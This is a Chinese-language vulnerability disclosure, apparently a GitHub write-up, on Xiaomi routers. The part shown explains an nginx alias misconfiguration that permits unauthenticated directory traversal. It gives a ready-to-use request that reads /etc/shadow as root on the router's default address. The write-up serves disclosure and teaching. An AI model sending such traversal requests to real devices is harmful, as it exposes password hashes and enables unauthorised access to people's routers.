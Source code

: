 # 小米系列路由器远程命令执行漏洞

discoverer: UltramanGaia from Kap0k & Zhiniang Peng from 360 Core Security 

漏洞发现时间：2019-03-09

## 漏洞影响范围

在小米系列路由器（最新版开发版/稳定版）中存在漏洞，可以实现无需登录，任意远程命令执行。



## 远程任意文件读取漏洞

#### 小米路由器的nginx配置文件错误，导致目录穿越漏洞，实现任意文件读取（无需登录）

nginx配置不当可导致目录穿越漏洞，

```
location /xxx {
  alias /abc/;
}
```

可通过访问`http://domain.cn/xxx../etc/passwd`实现目录穿越访问上级目录及其子目录文件。

在小米路由器的文件`/etc/sysapihttpd/sysapihttpd.conf`中，存在

```
location /api-third-party/download/extdisks {
	alias /extdisks/;
}
```

故可以任意文件读取根目录下的所有文件，而且是root权限，如访问`http://192.168.31.1/api-third-party/download/extdisks../etc/shadow`

![](1.png)
